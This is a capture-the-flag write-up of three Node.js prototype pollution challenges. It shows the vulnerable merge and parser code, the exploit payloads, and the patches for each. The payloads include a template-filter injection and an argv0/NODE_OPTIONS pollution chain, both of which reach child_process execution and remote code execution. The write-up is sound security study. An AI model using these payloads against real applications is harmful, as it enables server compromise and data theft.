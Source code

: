 # Solve:

## babyproto1:

### Where is the vulnerability and why it occurs

The problematic code is the deep merge function:
```javascript
function deepMerge(target, source) {
    let output = Object.assign({}, target);
    if (isObject(target) && isObject(source)) {
        for (let key in source){
            if(source.hasOwnProperty(key)){
                if(isObject(source[key])){
                    deepMerge(target[key], source[key])
                }else{
                    target[key] = source[key]
                }
            }
        }
    }
    return output;
}
```
In this function, it uses `target[key] = source[key]` to assign the value of `source[key]` to `target[key]`. 
However, if the target is something like `__proto__`, then it will pollute all objects. For example, 
in this case, `__proto__.flag = polluted`.

### How to exploit the vulnerability and retrieve the flag

- To trigger the vulnerability, we can input the following into the input boxes,
where locationID is `__proto__`, and the custom key is `flag`, and the custom value is `polluted`.
This would create the data package looking like  (`1` are just placeholders)::
```json
{
    "__proto__": {
        "name": "1",
        "AQ": "1",
        "latitude": "1",
        "longitude": "1",
        "flag": "polluted"
    }
}
```
- To retrieve the flag, simply append `/flag` to the url.

### How the .patch file works

The patch works by adding a check to the `deepMerge` function to prevent prototype pollution.
```javascript
if (key === "__proto__" || key === "constructor" || key === "prototype") {continue;}
```
The check is done by checking keywords like `__proto__` or `constructor` or `prototype`,
and will skip the current iteration of the loop to prevent the pollution.

## toddlerproto2:

### Where is the vulnerability and why it occurs

The problematic code is the deep merge function:
```javascript
function deepMerge(target, source) {
    let output = Object.assign({}, target);
    if (isObject(target) && isObject(source)) {
        for (let key in source){
            if(source.hasOwnProperty(key)){
                if(isObject(source[key])){
                    deepMerge(target[key], source[key])
                }else{
                    target[key] = source[key]
                }
            }
        }
    }
    return output;
}
```
In this function, it uses `target[key] = source[key]` to assign the value of `source[key]` to `target[key]`.
However, if the target is something like `__proto__`, then it will pollute all objects.
In this case, `__proto__.defaultFilter`.
The template engine will be polluted, and 
we can execute arbitrary code by calling the `defaultFilter` as the engine is rendering.

### How to exploit the vulnerability and retrieve the flag

- To trigger the vulnerability, we can input malicious code into the input boxes
that would create the data package looking like this (`1` are just placeholders):
```json
{
    "__proto__": {
        "name": "1",
        "AQ": "1",
        "latitude": "1",
        "longitude": "1",
      "defaultFilter": "e')); process.mainModule.constructor._load('child_process').exec('touch touch.txt');//"
    }
}
```
- We then rerender the page
- To retrieve the flag, simply append `/flag` to the url.

### How the .patch file works

The patch uses `Object.freeze(Object.prototype)` at the beginning of the app
to prevent prototype pollution.

## my-sis-system:

### Where is the vulnerability and why it occurs

The vulnerability is the ION parser.
```javascript
set(key, val) {
    let keyElements = splitElements(key);
    key = keyElements.pop();
    let elements = this.getFullScope(keyElements);
    let data = getTable(this.data, elements);
    if (typeof data == 'string')
        return data;
    data[key] = val;
}
```
There is no checks for keys like `__proto__`, `constructor`,
or `prototype`, which may lead to prototype pollution like the previous two challenges.
And since the server uses `child_process.spawn()` to restart when error happens, 
we can pollute argv0 and NODE_OPTIONS to execute arbitrary code.

### How to exploit the vulnerability and retrieve the flag

To trigger the vulnerability, I sent a `POST` request to the `/login` with the following body:
```text
title = "userData"

[__proto__] 
argv0 = "require('child_process').exec('cat ./flag.txt > ./public/pages/empty.html', {shell: '/bin/bash'},(error, stdout, stderr) => {if (error) {console.error('RCE');return;}})//"
NODE_OPTIONS = "--require /proc/self/cmdline"
```
This allows me to modify the content of empty.html to the content of the flag, and then I can retrieve the flag by visiting `/empty`.

### How the .patch file works

The patch uses `Object.freeze(Object.prototype)` at the beginning of the app
to prevent prototype pollution.


